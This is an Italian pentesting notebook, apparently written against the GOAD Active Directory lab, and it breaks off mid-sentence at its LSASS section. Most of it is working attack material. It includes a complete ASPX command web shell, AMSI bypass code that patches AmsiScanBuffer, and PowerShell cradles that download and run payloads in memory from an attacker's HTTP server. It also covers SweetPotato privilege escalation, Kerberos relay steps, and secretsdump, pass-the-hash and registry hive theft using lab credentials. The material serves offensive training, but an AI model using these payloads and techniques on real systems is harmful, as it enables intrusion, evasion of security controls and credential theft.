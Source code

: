 ### **ENUM MSSQL**
Vediamo quali server hanno MSSQL attivo
```bash
nmap -p 1433 -sV -sC 192.168.56.10-23
```
![[Pasted image 20230830110346.png]]
![[Pasted image 20230830110835.png]]
Controlliamo se ci sono utenti con SPN sui server MSSQL trovati
```bash
impacket-GetUserSPNs north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```
![[Pasted image 20230830104754.png]]
```bash
GetUserSPNs.py -target-domain essos.local north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```
![[Pasted image 20230830110943.png]]
è possibile anche usare crackmapexec per enumerare
```bash
crackmapexec mssql 192.168.56.22-23
```
![[Pasted image 20230830151845.png]]

### **MSSQL PWN**
Non funziona
### **IIS Rev Shell**
All'indirizzo http://192.168.56.22/Default.aspx c'è un web server IIS che consente un upload.
Carichiamo quindi una web shell in .asp.
```aspx
<%
Function getResult(theParam)
    Dim objSh, objResult
    Set objSh = CreateObject("WScript.Shell")
    Set objResult = objSh.exec(theParam)
    getResult = objResult.StdOut.ReadAll
end Function
%>
<HTML>
    <BODY>
        Enter command:
            <FORM action="" method="POST">
                <input type="text" name="param" size=45 value="<%= myValue %>">
                <input type="submit" value="Run">
            </FORM>
            <p>
        Result :
        <% 
        myValue = request("param")
        thisDir = getResult("cmd /c" & myValue)
        Response.Write(thisDir)
        %>
        </p>
        <br>
    </BODY>
</HTML>
```
![[Pasted image 20230906101505.png]]
Ora abbiamo ottenuto una reverse shell
![[Pasted image 20230906104623.png]]

### **IIS Priv Esc**
*AMSI Bypass*
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
[amsi.fail](https://amsi.fail/)
Io ho usato una versione modificata di quelli trovabili in questi due link
```PowerShell
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
```
Di seguito uno script per disabilitare totalmente AMSI a livello .NET
```PowerShell
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
Apriamo un server http e lanciamolo sulla macchina windows
```PowerShell
(new-object system.net.webclient).downloadstring('http://192.168.56.6:8080/amsi_rmouse.txt')|IEX
```
![[Pasted image 20230906110016.png]]
==ORA NON TOCCARE PIù IL DISCO ALTRIMENTI MANDI TUTTO A DONNINE==
Per runnare gli script runnali direttamente in memoria quando li scarichi
*WinPeas senza toccare il disco*
Per approfondimento
[Running a .NET Assembly in Memory with Meterpreter - (praetorian.com)](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter/)

Prendi WinPeas e lancialo in memoria
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe
```
```powershell
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.56.6:8080/winPEASany_ofs.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[winPEAS.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
```
![[Pasted image 20230906111136.png]]
*SeImpersonatePrivilege to Authority\system*
Qui si possono usare svariate tecniche "Potato". Per approfondimenti
[https://jlajara.gitlab.io/Potatoes_Windows_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

Useremo ora [SeeetPotato](https://github.com/CCob/SweetPotato)
Che compileremo con visual studio e caricheremo sulla vittima
Caricheremo inoltre un file runme.bat che verrà eseguito da SweerPotato per ottenere una RevShell come amministratore
```PowerShell
(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8080/runme.bat','c:\temp\runme.bat')
```
```PowerShell
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/SweetPotato.exe'); 
```
```PowerShell
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
```
```PowerShell
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter [Console]::SetOut($sWriter); 
```
```PowerShell
[SweetPotato.Program]::Main(@('-p=C:\temp\runme.bat'));[Console]::SetOut($out);$sWriter.ToString()
```
![[Pasted image 20230906122310.png]]
### **KRLBRELAY UP**
https://github.com/tyranid/oleviewdotnet/releases/download/v1.11/Release.7z
[cube0x0/KrbRelay: Framework for Kerberos relaying (github.com)](https://github.com/cube0x0/KrbRelay)
Per utilizzare questo metodo LDAP non deve essere enforced, verificabile con CrackMapExec
```bash
crackmapexec ldap 192.168.56.10-12 -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M ldap-signing
```
![[Pasted image 20230906123355.png]]
Quindi aggiungiamo un nuovo computer al domain
```bash
impacket-addcomputer -computer-name 'krbrelay$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'
```
![[Pasted image 20230906123509.png]]

Ora prendiamo il SID del nuovo Computer
```PowerShell
$o = ([ADSI]"LDAP://CN=krbrelay,CN=Computers,DC=north,DC=sevenkingdoms,DC=local").objectSID
```
```PowerShell
(New-Object System.Security.Principal.SecurityIdentifier($o.value, 0)).Value
```
![[Pasted image 20230906125241.png]]
Ora carichiamo CheckPort.exe sulla macchine ed eseguiamolo
```Powershell
.\CheckPort.exe
```
![[Pasted image 20230906142820.png]]
Usiamo il modulo di OleViewDotNet per trovare il clsid
Usa la guida presente sul github di KrbRelay (Sono andato a tentativi, nel mio caso ho usato altri nella lista forniti dal github)
Lanciamo KrbRelay.exe
```powershell
.\KrbRelay.exe -spn ldap/winterfell.north.sevenkingdoms.local -clsid 9acf41ed-d457-4cc1-941b-ab02c26e4686 -rbcd S-1-5-21-585350295-1285882793-2068218167-5103 -port 443
```
![[Pasted image 20230906150422.png]]
==Continua a dare errore, potrebbe essere colpa di azure, da riprovare con il lab a casa==
Ora usiamo Impacket per ottenere un TGT e poi un ST per l'account da amministratore
```bash
impacket-getTGT -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'krbrelay$':'ComputerPassword'
export KRB5CCNAME=./krbrelay\$.ccache   
```
```bash
impacket-getST -impersonate 'administrator' -spn 'CIFS/castelblack.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'krbrelay$'
```

### **Lateral Movement**
Prima di saltare da una macchina all'altra è essenziale ottenere tutti i "Secrets" della macchina pwnata.
```bash
impacket-secretsdump NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22
```
![[Pasted image 20230906162707.png]]
Per quanto riguarda il SAM i risultato sono mostrati cosi:
```
<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```
Questo valore sulle LM hash significa vuoto ==aad3b435b51404eeaad3b435b51404ee==

*Pass the Hash*
Spesso nel creare i network gli amministratori copiano le macchine, quindi le password vengono riutilizzate.
Per testare ciò si può usare crackmapexec
```bash
crackmapexec smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4' --local-auth
```
![[Pasted image 20230906164347.png]]
Quando una macchina viene promossa a DC, la password dell'amministratore locale diventa la password del domain administrator
```bash
crackmapexec smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4'
```
![[Pasted image 20230906164901.png]]
*LSA secrets and Cached domain logon information*
dumpiamo HKLM\\SECURITY e HKLM\\SYSTEM
```bash
impacket-smbserver -smb2support share .
impacket-reg NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.6\share'
impacket-reg NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SECURITY' -o '\\192.168.56.6\share'
```
![[Pasted image 20230906165710.png]]
E dumpa i "secrets"
```bash
impacket-secretsdump -security SECURITY.save -system SYSTEM.save LOCAL
```
![[Pasted image 20230906170139.png]]
Ci da molte informazioni come:
- Cached domain credentials (DCC2 hashcat mode 2100) (Quasi impossibili da craccare)
- Machine account : example here : $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:22d57aa0196b9e885130414dc88d1a95
- Service account credentials
- DPAPI key e password per l'autologon
Ora si potrebbero effettuare più mosse, come lanciare bloodhound con il machine account trovato, usare le credenziali del service account o provare a craccare le hash DCC2
*LSASS*
Un altro importante contenitore di "Secrets" è il processo lsass.exe
Potresti usare mimkatz ma 